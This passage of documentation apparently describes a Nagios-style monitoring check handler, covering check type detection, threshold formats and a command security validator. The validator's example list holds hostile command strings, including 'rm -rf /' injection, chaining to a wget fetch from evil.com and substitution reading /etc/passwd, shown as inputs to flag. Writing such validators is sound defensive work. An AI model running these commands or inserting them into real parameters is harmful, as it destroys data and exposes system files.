 **Key Features**:

#### Check Type Detection
Automatically detects the type of custom check:

```python
# Service name patterns and detected types
check_types = {
    "MRPE check_disk": "mrpe",
    "Local memory_check": "local", 
    "check_mysql": "nagios_plugin",
    "Custom Health Script": "script",
    "HTTP www.example.com": "active_check"
}
```

#### Nagios Threshold Validation
Validates Nagios-style threshold formats:

```python
# Valid Nagios thresholds
valid_thresholds = [
    "10",           # Simple value
    "10:",          # 10 to infinity  
    "~:10",         # Negative infinity to 10
    "10:20",        # Range 10 to 20
    "@10:20",       # Inside range (inverted logic)
    "10.5:20.7"     # Decimal values
]

# Validation example
threshold = "80:90"
is_valid = handler.is_valid_nagios_threshold(threshold)  # True
```

#### Command Security Validation
Validates command parameters for security risks:

```python
# Safe commands
safe_commands = [
    "check_disk -w 80% -c 90% /var",
    "check_load -w 5,4,3 -c 10,6,4",
    "check_mysql -H localhost -u monitor"
]

# Potentially dangerous commands (flagged with warnings)
dangerous_commands = [
    "check_disk; rm -rf /",                    # Command injection
    "check_load && wget http://evil.com/script", # Command chaining
    "check_http `cat /etc/passwd`",            # Command substitution
    "check_mysql $(whoami)"                    # Command substitution
]
```
